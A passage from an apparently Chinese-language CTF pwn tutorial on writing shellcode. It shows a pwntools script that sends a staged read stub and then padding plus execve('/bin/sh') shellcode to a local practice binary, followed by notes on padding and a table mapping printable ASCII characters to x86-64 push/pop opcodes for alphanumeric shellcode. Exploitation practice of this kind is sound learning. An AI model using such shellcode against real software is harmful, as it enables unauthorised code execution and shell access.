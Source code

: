 ```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test2')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)#
#sleep(0.1)
gdb.attach(io)
pause()
io.send(b'a'*0xb+shellcode)
io.interactive()
```

要注意 shellcode 要接到原来 readshellcode 的后面，所以要先用垃圾字节将前面覆盖

### 纯 ascii 字符 shellcode

某些题目会限制我们用纯字符的 shellcode 来 getshell，比如限制输入的 shellcode 转换成 ascaii 码要是可见字符的 shellcode，这要求我们对机器码有一定的了解

例如：

```bash
ASCII 字符     Hex     汇编指令
P           0x50    push %rax
Q           0x51    push %rcx
R           0x52    push %rdx
S           0x53    push %rbx
T           0x54    push %rsp
U           0x55    push %rbp
V           0x56    push %rsi
W           0x57    push %rdi
X           0x58    pop %rax
Y           0x59    pop %rcx
Z           0x5a    pop %rdx
```
